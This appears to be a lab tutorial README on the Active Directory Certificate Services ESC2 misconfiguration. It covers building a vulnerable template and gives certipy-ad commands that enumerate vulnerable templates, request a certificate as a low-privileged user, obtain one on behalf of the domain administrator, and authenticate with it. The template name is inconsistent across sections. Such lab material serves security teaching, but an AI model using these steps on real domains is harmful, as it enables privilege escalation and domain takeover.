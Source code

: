 # 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 2 (ESC2) Abuse Guide

## Reference

- [Blog for ADCE-ESC2](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-4/)

- [Youtube Video](https://youtu.be/BOwyMyykhIo?si=SKuXY7tZsJyl9J5u)

---

## What is ADCS ESC2?

**ESC2 (Escalation #2)** is a misconfiguration in Active Directory Certificate Services (ADCS) where a low-privileged user can request a certificate from a template that either:

- Allows **Any Purpose** in EKU (Extended Key Usage), **or**
- Has **no EKU configured at all**

This allows the attacker to:
- Authenticate to domain systems
- **Sign certificates on behalf of other users**, including Domain Admins
- Bypass constraints normally set by specific EKUs like "Client Authentication"

---
## Lab Setup

- **Domain Controller (DC):** `dc-01.furious.local`
- **Domain:** `furious.local`
- **Certificate Authority:** `furious-DC01-FURIOUS5-CA`
- **Vulnerable Template:** `Vulnerable-ESC1`

---

## Create a Vulnerable ESC2 Template

### Step 1: Duplicate a Template

1. Open **Certificate Templates Console**: `certtmpl.msc`
2. Right-click an existing user template ➤ **Duplicate Template**
3. Name it `Vulnerable-ESC2`

### Step 2: Set Permissions

- **Security Tab**:
  - `Domain Users` ➤ ✅ **Enroll**

<img src="Imgs/image1.png" alt="Error loading image">

### Step 3: Modify EKU

- Go to the **Extensions** tab
- Either:
  - Add **Any Purpose (2.5.29.37.0)** under Application Policies
  - Or remove all EKUs to make it **EKU-less**

<img src="Imgs/image2.png" alt="Error loading image">

### Step 4: No Manager Approval

- **Issuance Requirements** tab:
  - Make sure **"CA certificate manager approval"** is **unchecked**

<img src="Imgs/image4.png" alt="Error loading image">

### Step 5: Publish the Template

1. Open **Certification Authority Console**: `certsrv.msc`
2. Right-click **Certificate Templates** ➤ **New** ➤ **Certificate Template to Issue**
3. Select `ESC2_User` ➤ **OK**

---

## Exploiting ESC2 Misconfiguration in Active Directory Certificate Services (ADCS)

**ESC2** lets an attacker **gain code signing or client auth certs** via overly-permissive or EKU-less templates, which can be abused to **issue additional certificates** — including for privileged users.

---

##  Key Conditions for ESC2 Exploitation

### 1️⃣ Enroll Permissions for Low-Privilege Users

- Template allows **Domain Users**, **Authenticated Users**, or a specific low-privileged user to enroll.

>  **ESC2 Condition #1:** Enroll rights granted to non-privileged users

---

### 2️⃣ No Manager Approval Required

- Requests are **automatically approved**.

>  **ESC2 Condition #2:** No manual approval needed

---

### 3️⃣ Any Purpose EKU or No EKU at All

- **Any Purpose** (`2.5.29.37.0`) or **no EKU set**

>  **ESC2 Condition #3:** EKU = Any Purpose OR EKU = None

<img src="Imgs/image3.png" alt="Error loading image">
---

## Enumerating ESC2 with Certipy

```bash
certipy-ad find -u jack -p complex1@ -dc-ip 192.168.129.140 -vulnerable -enabled
```

- Look for a template like `Vulnerable-ESC2` that is vulnerable and enabled.

---

##  Exploit ESC2 in Two Stages

---

### 🔹 Stage 1: Request a Certificate for the Attacker

```bash
certipy-ad req -u 'jack' -p 'complex1@' \
  -dc-ip '192.168.129.140' \
  -target 'furious.local' \  
  -ca 'furious-DC01-FURIOUS5-CA' \
  -template 'Vulnerable-ESC2' \
  -debug
```

- This creates a `.pfx` file (e.g., `jack.pfx`) that can be used to **sign future certs**.

---

### 🔹 Stage 2: Request Certificate on Behalf of Domain Admin

```bash
certipy-ad req -u 'jack' -p 'complex1@' \
  -dc-ip '192.168.129.140' \ 
  -target 'furious.local' \  
  -ca 'furious-DC01-FURIOUS5-CA' \
  -template 'User' \
  -on-behalf-of 'furious\administrator' \
  -pfx jack.pfx \   
  -debug
```

- This uses `jack.pfx` to request a new cert **on behalf of a Domain Admin**

### Step 3: Authenticate with the Certificate

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.129.140
```
---


##  What is "Any Purpose" in EKU?

In the context of **Extended Key Usage (EKU)**, **"Any Purpose"** means that the certificate can be used for **any purpose**, even if specific EKUs (like client or server authentication) are **not explicitly listed**.

---

##  Meaning and Behavior

- The **OID** for "Any Purpose" is `2.5.29.37.0`.
- It acts like a **wildcard**, allowing the certificate to be accepted for **any of the following**:
  -  Client authentication
  -  Server authentication
  -  Code signing
  -  Smart card logon
  -  ... and essentially **any usage** that checks EKUs

---

##  EKU and Active Directory Certificate Services (AD CS)

In AD CS attacks:

- **ESC1** relies on a certificate template that has **EKU set specifically to "Client Authentication"**.
- **ESC2** is a **superset** or more general form of ESC1:
  - In ESC2, the template has **"Any Purpose"** (wildcard EKU), which still **includes client authentication**, but **indirectly**.
  - That means even though we're not explicitly using "Client Authentication", it is still allowed under "Any Purpose".

---
